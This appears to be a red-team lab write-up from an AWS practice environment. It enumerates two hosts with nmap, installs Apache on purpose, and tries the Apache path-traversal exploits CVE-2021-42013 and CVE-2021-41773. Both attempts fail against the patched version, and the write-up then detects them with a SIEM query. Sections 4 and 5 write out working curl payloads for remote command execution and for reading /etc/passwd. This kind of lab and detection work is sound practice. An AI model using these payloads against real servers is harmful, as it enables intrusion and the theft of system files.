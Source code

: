 

<br><br>

# Red Notes:


<br><br><br>


# Red Team Exploitation & CVE Attack Simulation

From the Kali EC2, simulate an attacker:

- Enumerate the Ubuntu Logger and/or SIEM

- Identify exposed services

- Select real-world CVEs based on those services

- Execute or simulate exploits

- Map TTPs using the MITRE ATT&CK framework

---



1. Used ping to ensure I'm able to communicate outbound and inbound traffic to conferm the lab setup was completed correctly.

        ubuntu-logger
        172.31.24.26

        siem-server
        172.31.27.218

![alt text](image.png)


<br>

2.  Running network enumeration on bother servers, ubuntu-logger and siem-server.

        nmap -sS -sV -T4 -Pn 172.31.24.26 -oN nmap_scan_ubuntu.txt
        
        nmap -sS -sV -T4 -Pn 172.31.27.218 -oN nmap_scan_siem.txt

    ![alt text](image-1.png)

    - Analyzing the results, i'm able to confirm the ubuntu-logger has no open services and is locked down.  For the sake of the project, I artificicially installed potential targets, like Apache.  

            sudo apt update
            sudo apt install apache2 -y
            sudo systemctl enable apache2
            sudo systemctl start apache2
            curl http://localhost       # Should provide the Apache welcome output

        - Updated the AWS security group, ensuring port 80 source IP was updated to 172.31.0.0/16
            
            ![alt text](image-3.png)




    - Nmap rescan of the ubuntu-logger

        We can see the Apache server on port 80 is open

        ![alt text](image-2.png)


<br>

3. Analyze Nmap Results and Select CVEs

    - ubuntu-logger shows the only open port, `80/tcp   open   http    Apache httpd 2.4.58 ((Ubuntu))`

    - siem-server shows all ports closed or filtered.

    - Searching any CVEs using Exploit Db and filtered for `apache 2.4.` to find the move CVEs available

        ![alt text](image-4.png)

    - Even though there weren't any vulnerabilities directly applied to the current running Apache, it was a coin flip and choosing a verified CVE vulnerability:
    
        - Apache HTTP Server 2.4.50 - Path Traversal & Remote Code Execution (RCE)

            https://www.exploit-db.com/exploits/50406
            
                CVE-2021-42013

            ![alt text](image-5.png)


        - Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)

            https://www.exploit-db.com/exploits/50383

                CVE-2021-41773

            ![alt text](image-6.png)


<br>

4. Simulated Apache Attacks: 

    - CVE-2021-42013 (Apache 2.4.50)

        - In the Kali EC2 run the following to test RCE using path traversal with script execution

            curl -v --path-as-is -d 'echo Content-Type: text/plain; echo; id' http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh

        - Output:  The path traversal and remote code execution was rejected indicating to me Apache 2.4.58 patched the traversal vulnerability

            ![alt text](image-7.png)



    - CVE-2021-41773 (Apache 2.4.49)

        - Using the following command, I attempted to retrieve /etc/passwd using double-encoded traversal

                curl -v --path-as-is http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

        - Output:  There server rejected the malformed request indicating to me Apache 2.4.58 patched the traversal vulnerability

            ![alt text](image-8.png) 


    - Outcomes from both simulated attacks

        Since there wasn't any verified Apache 2.4.58 vulnerable CVEs I was forced to used a prior CVEs that have been since patched as Apached updated its application.  This is why there I was unable to successfully gain access.  


<br>

5.  Verifying logs in the SIEM of the attacks

    - Queried for logs using `message:("/cgi-bin" OR "%2e" OR "bin/sh") AND program:("apache2" OR "apache_access")`

        - Command used:   
                curl -v --path-as-is -d 'echo Content-Type: text/plain; echo; id' http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh

            - Log identified was a post 
            
                POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh`

        - Command used:

                curl -v --path-as-is http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

        - Log identified was GET
        
                "GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

    -  Some tell tale signed were identifying the HTTP codes 400 for each log.  And the attack related patterns that led me to identify the logs for the Apache hack.  


    